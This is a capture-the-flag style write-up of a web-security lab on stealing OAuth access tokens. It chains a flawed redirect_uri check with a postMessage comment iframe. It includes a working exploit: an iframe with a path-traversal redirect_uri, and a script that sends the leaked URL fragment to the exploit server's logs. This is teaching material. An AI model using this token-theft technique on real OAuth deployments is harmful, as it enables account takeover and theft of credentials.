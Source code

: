 # Stealing OAuth access tokens via a proxy page

**Date:** 10, August, 2021

**Author:** Dhilip Sanjay S

---

## Task

- This lab uses an OAuth service to allow users to log in with their social media account. 
- **Flawed validation** by the OAuth service makes it possible for an attacker to **leak access tokens to arbitrary pages** on the client application.

- To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account.

- Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

- The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

- You can log in via your own social media account using the following credentials: `wiener:peter`.

---

## Solution

- The comment section of the blog is an iframe, which uses `postMessage()`:

```js
parent.postMessage({type: 'onload', data: window.location.href}, '*')
function submitForm(form, ev) {
    ev.preventDefault();
    const formData = new FormData(document.getElementById("comment-form"));
    const hashParams = new URLSearchParams(window.location.hash.substr(1));
    const o = {};
    formData.forEach((v, k) => o[k] = v);
    hashParams.forEach((v, k) => o[k] = v);
    parent.postMessage({type: 'oncomment', content: o}, '*');
    form.reset();
}        
```

{% hint style="info" %}
- On loading, there is a post message made to the parent window, with the URL as such in the data.
- The transfer origin is also set to `*`.
{% endhint %}


### Exploit code

```html
<iframe src="https://oauth-ac731f1e1e8b2c638026bd5c021700f9.web-security-academy.net/auth?client_id=hmu084l9x487ob0rhph0d&redirect_uri=https://ac5c1f5d1e832c51805ebd05001000b2.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-391999832&scope=openid%20profile%20email">
</iframe>

<script>
window.addEventListener('message', function(e) {
fetch("/" + encodeURIComponent(e.data.data))       
}, false)
</script>
```

### Access Token

- We get the access token in the logs of the exploit server.

![Access Token](../Images/Lab5-AccessToken.png)

{% hint style="info" %}
- To get only the access_token from the data, use `e.data.data.split("#")[1].split("&")[0]` in the script.
{% endhint %}


### API Key

- Now in the OAuth flow - `/me` request, replace the **Bearer** token with admin's token.
- You'll get the API key. Submit it to solve the lab!

![API Key](../Images/Lab5-solved.png)

---

## References

[Post Message in Javascript](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)